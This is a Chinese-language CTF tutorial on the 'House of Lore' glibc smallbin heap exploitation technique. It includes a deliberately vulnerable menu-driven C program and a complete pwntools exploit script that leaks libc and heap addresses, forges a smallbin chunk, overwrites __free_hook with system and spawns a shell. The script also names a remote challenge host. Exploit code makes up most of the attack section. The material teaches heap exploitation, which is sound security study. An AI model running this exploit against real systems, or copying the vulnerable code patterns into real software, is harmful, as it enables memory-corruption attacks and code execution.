


# House of Lore

## 1.基本原理

与 smallbin 紧密相关，利用的前提是需要控制 smallbin 的 bk 指针，并且控制指定位置 chunk 的 fd 指针，可以实现任意地址 malloc，从而实现任意地址写

影响的 glibc 版本：小于 glibc—2.31

构造流程：

* 申请 smallbin 范围大小的 chunk1（64 位：0x20-0x3f0）
* 申请一个 chunk 防止 free 时 chunk1 与 topchunk 合并
* 释放 chunk1 进入 unsortedbin
* 申请一个更大的内存使 chunk1 进入 smallbin，此时状态如下：

  
* 绕过如下检查，victim即原本smallbin中的chunk，bck即伪造的chunk，再申请两次即可得到buf1处的chunk（第一次申请出smallbin中的victim，第二次申请出buf1，需要指定buf1的bk是因为第二次申请时会将bck=victim->bk,后面又会对bck的fd赋值，所以需要确保buf2处可写）

  ```c
  if (in_smallbin_range (nb))
  {
    idx = smallbin_index (nb);
    bin = bin_at (av, idx);
  
    if ((victim = last (bin)) != bin)
      {
        bck = victim->bk;
        if (__glibc_unlikely (bck->fd != victim))
          malloc_printerr ("malloc(): smallbin double linked list corrupted");
        set_inuse_bit_at_offset (victim, nb);
        bin->bk = bck;
        bck->fd = bin;
  ```

  
  
  


## 2.利用思路

实例程序：

```c
#include<stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <malloc.h>

char buf[sizeof(size_t) * 3];
char *chunk_list[0x100];

void menu() {
    puts("1. add chunk");
    puts("2. delete chunk");
    puts("3. edit chunk");
    puts("4. show chunk");
    puts("5. edit buf");
    puts("6. edit");
    puts("choice:");
}

size_t get_num() {
    size_t num;
    scanf("%llu", &num);
    return num;
}

void add_chunk() {
    puts("index:");
    size_t index = get_num();
    puts("size:");
    size_t size = get_num();
    chunk_list[index] = malloc(size);
}

void delete_chunk() {
    puts("index:");
    size_t index = get_num();
    free(chunk_list[index]);
}

void edit_chunk() {
    puts("index:");
    size_t index = get_num();
    puts("length:");
    size_t length = get_num();
    puts("content:");
    read(0, chunk_list[index], length);
}

void show_chunk() {
    puts("index:");
    size_t index = get_num();
    puts(chunk_list[index]);
}

void edit_buf() {
    puts("content:");
    read(0, buf, sizeof(buf));
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    while (1) {
        menu();
        switch (get_num()) {
            case 1:
                add_chunk();
                break;
            case 2:
                delete_chunk();
                break;
            case 3:
                edit_chunk();
                break;
            case 4:
                show_chunk();
                break;
            case 5:
                edit_buf();
                break;
            default:
                puts("invalid choice.");
        }
    }
}
```

exp：

```python
from pwn import *

elf_path = './pwn'
libc_path = './libc.so.6'
elf = ELF(elf_path, checksec=False)
libc = ELF(libc_path)
context(arch=elf.arch, os=elf.os, log_level="debug")
# context.terminal = ['tmux','splitw','-h']
ip = '8.147.135.93'
port = 37051

local = 1
if local:
    p = process([elf_path])
else:
    p = remote(ip, port)

# -----------------------------------------------------------------------------------------
it = lambda: p.interactive()
sd = lambda data: p.send((data))
sa = lambda delim, data: p.sendafter((delim), (data))
sl = lambda data: p.sendline((data))
sla = lambda delim, data: p.sendlineafter((delim), (data))
r = lambda numb=4096: p.recv(numb)
ru = lambda delims, drop=False: p.recvuntil(delims, drop)
rl = lambda: p.recvline()
l = lambda str1: log.success(str1)
li = lambda str1, data1: log.success(str1 + ' ========> ' + hex(data1))
uu32 = lambda data: u32(data.ljust(4, b"\x00"))
uu64 = lambda data: u64(data.ljust(8, b"\x00"))
n64 = lambda x: (x + 0x10000000000000000) & 0xFFFFFFFFFFFFFFFF
u32Leakbase = lambda offset: u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset: u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset


def add_chunk(index, size):
    sla(b"choice:\n", b"1")
    sla(b"index:\n", str(index).encode())
    sla(b"size:\n", str(size).encode())


def delete_chunk(index):
    sla(b"choice:\n", b"2")
    sla(b"index:\n", str(index).encode())


def edit_chunk(index, content):
    sla(b"choice:\n", b"3")
    sla(b"index:\n", str(index).encode())
    sla(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)


def show_chunk(index):
    sla(b"choice:\n", b"4")
    sla(b"index:\n", str(index).encode())


def edit_buf(content):
    sla(b"choice:\n", b'5')
    sla(b"content:\n", content)

add_chunk(0, 0x200)
add_chunk(1, 0x18)
add_chunk(2, 0x200)
add_chunk(3, 0x18)

delete_chunk(0)
show_chunk(0)
libc.address = u64Leakbase(0x39bb78)
li("libc.address", libc.address)

delete_chunk(2)
edit_chunk(0, 8*b'a')
show_chunk(0)
heap_base = u64(rl()[8:12].ljust(8, b'\x00')) & ~0xfff
li("heap_base", heap_base)

edit_chunk(0, p64(libc.address+0x39bb78))
add_chunk(0, 0x200)

add_chunk(10, 0x500)
edit_chunk(2, p64(0)+p64(elf.sym['buf']-0x8))
edit_buf(p64(elf.sym['buf'] - 0x8) + p64(heap_base + 0x230) + p64(elf.sym['buf'] - 0x10))
add_chunk(0, 0x200)
add_chunk(0, 0x200)

edit_chunk(0, p64(0) * 3 + p64(libc.sym['__free_hook']) + p64(next(libc.search(b'/bin/sh\x00'))))
edit_chunk(0, p64(libc.sym['system']))
delete_chunk(1)

gdb.attach(p)
pause()

it()
```

由于buf和chunk_list相邻，所以申请出buf的空间可以对chunklist进行修改，从而打hook system
